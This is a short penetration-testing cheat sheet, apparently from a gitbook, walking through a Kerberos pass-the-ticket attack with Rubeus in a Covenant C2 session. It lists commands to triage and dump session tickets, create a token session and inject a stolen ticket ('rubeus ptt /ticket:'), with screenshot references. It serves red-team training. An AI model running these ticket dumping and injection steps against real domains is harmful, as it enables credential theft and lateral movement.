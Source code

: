 # Rubeus

## Rubeus

### Pass the Ticket

#### - Show all session tickets

```
Rubeus triage
```

![](<../../../../.gitbook/assets/image (3) (1) (1).png>)

#### - Dump the tickets

```
Rubeus dump
```

![](<../../../../.gitbook/assets/image (103).png>)

#### Loot are available in Data pane:

![](<../../../../.gitbook/assets/image (275).png>)

#### Copy the base64 ticket (bug from data interface, copy the interactive window)

![](<../../../../.gitbook/assets/image (311).png>)

#### Create a new session using MakeToken

```
MakeToken help

[!] Usage: MakeToken <username> <domain> <password>[ <logontype> ]
```

![](<../../../../.gitbook/assets/image (272).png>)

#### Create a new grunt session&#x20;

```
CreateProcessWithToken

[!] Usage: CreateProcessWithToken <command>[ <path> ]
```

![](<../../../../.gitbook/assets/image (101).png>)

#### Pass the ticket

```
rubeus ptt /ticket:
```

![](<../../../../.gitbook/assets/image (260).png>)

![](<../../../../.gitbook/assets/image (9).png>)

#### cifs ticket injected&#x20;

![](<../../../../.gitbook/assets/image (126).png>)

###
